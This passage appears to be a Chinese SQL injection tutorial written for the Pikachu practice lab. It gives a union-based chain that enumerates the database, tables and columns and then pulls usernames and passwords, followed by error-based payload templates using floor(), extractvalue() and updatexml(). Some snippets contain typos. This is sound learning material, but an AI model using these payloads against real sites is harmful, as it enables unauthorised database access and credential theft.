 ### 一次完整的拆解获取过程
按照数据库的库-表-字段这个层次性进行一步步渗透
```sql
#1 先通过union找出数据库的名称
a' union select database(),user(),3 #%
#2 得到要爆破的数据库名pikachu后，获取相关表名
u' union select table_schema ,table_name,3 from information_schema.tables where table_schema='pikachu' #%
#3 获取表名后，查询columns表获取字段名
k' union select table_name,column_name,3 from information_schema.columns where table_name='users' #%
#4 最后通过具体表获取相关数据
kobe 'union select username ,password,3 from users #%
```
<a name="Ne3wl"></a>
## 基于函数报错手工注入
<a name="Qnps2"></a>
### 思路、条件、优缺点等
当数据库的函数被传入错误参数时，会发生语法错误，正常情况下这类错误不应该回显到前端页面，但当中间件或程序未正常屏蔽时导致错误信息输出到屏幕上，就能用来进行报错注入了。<br />select/insert/update/delete都可以被用来报错注入
<a name="BxaqE"></a>
#### 报错注入条件：

1. 后台没有屏蔽数据库报错信息，在语法发生错误时会输出在前端
2. 运维人员设置中间件的时候，错误输出没有屏蔽
3. 程序员写网站代码的时候，没有屏蔽错误信息输出
<a name="wki5g"></a>
#### 优缺点：

1. 优点是注入速度快
2. 缺点是语句较为复杂，而且只能用`limit`依次进行猜解

总体来说，报错注入其实是一种公式化的注入方法，主要用于在页面中没有显示位，但是用mysql输出了错误信息时使用。
<a name="bmygP"></a>
### 常用函数
<a name="PRnu2"></a>
#### `floor()`：MYSQL 中用来取整的函数
```sql
select count(*) from information_schema.tables group by concat((select version())),floor(rang(0)*2);
#concat 连接字符串功能
#floor  取float的整数值
#rang   取0-1之间随机浮点值
#group by   对结果集进行排序
select verson()就是我们用来做sql注入的语句
```
<a name="MLHLl"></a>
#### `extractvalue()`：MYSQL 对 XML 文档数据进行查询的 XPATH 函数
```sql
select extractvalue(1,concat(0x7e,(select user()),0x7e));
#extractvalue():接收2个参数,第一个xml文档,第二个xpath语句
#用concat构造一个错误的xpath字符串,使extractvalue函数报错,显示出构造的'错误'字符串
```
<a name="aPxAX"></a>
#### `updatexml()`：MYSQL 对 XML 文档数据进行查询和修改的 XPATH 函数
最常用的报错注入函数
```sql
select updatexml(1,concat(0x7e,(select user()),0x7e),1)
#接收3个参数,第一个xml文档,第二个xpath语句,第三个字符串
#原理和extravtvalue一样,构造错误的xpath语句报错
```